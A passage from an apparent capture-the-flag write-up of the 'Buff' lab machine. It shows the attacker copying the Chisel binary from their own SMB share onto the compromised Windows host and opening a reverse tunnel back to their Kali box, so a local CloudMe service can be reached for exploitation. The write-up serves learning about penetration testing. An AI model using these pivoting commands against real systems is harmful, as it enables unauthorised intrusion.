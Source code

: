 ```

```

The version number for the top two (1.11.2) lines up nicely with the EXE name from Buff (`CloudMe_1112.exe`).

### Tunnel

To exploit this service, I’ll need a tunnel from my box to Buff (or I’d have to run the exploit from Buff, but Python isn’t typically installed on Windows). I’ll use my favorite tool for this, [Chisel](https://github.com/jpillora/chisel). I’ll use the same SMB share and copy the Windows binary to where I’m staging in `\programdata`.

```

C:\ProgramData>copy \\10.10.14.20\share\chisel_1.6.0_windows_amd64 c.exe
copy \\10.10.14.20\share\chisel_1.6.0_windows_amd64 c.exe       
        1 file(s) copied.

```

Now I’ll run the Linux binary on Kali in server mode:

```

root@kali:/opt/chisel# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
2020/07/19 07:03:48 server: Reverse tunnelling enabled
2020/07/19 07:03:48 server: Fingerprint 34:e6:05:6e:5d:8a:f6:a3:72:78:31:31:f5:f3:01:b1
2020/07/19 07:03:48 server: Listening on 0.0.0.0:8000...

```

Next, from Buff, I’ll run as a client:

```

C:\ProgramData>.\c.exe client 10.10.14.20:8000 R:8888:localhost:8888
.\c.exe client 10.10.14.20:8000 R:8888:localhost:8888           
2020/07/19 20:07:45 client: Connecting to ws://10.10.14.20:8000 
2020/07/19 20:07:45 client: Fingerprint 34:e6:05:6e:5d:8a:f6:a3:72:78:31:31:f5:f3:01:b1
2020/07/19 20:07:45 client: Connected (Latency 1.0595ms)

```

I can see the connection at the server as well:

```

2020/07/19 15:06:13 server: proxy#1:R:0.0.0.0:8888=>localhost:8888: Listening

```

I can see my local box is listening on 8888:

```

root@kali# netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      17843/python        
tcp        0      0 127.0.0.1:38153         0.0.0.0:*               LISTEN      17843/python        
tcp        0      0 127.0.0.1:54261         0.0.0.0:*               LISTEN      17843/python        
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      13166/./chisel_1.6. 
```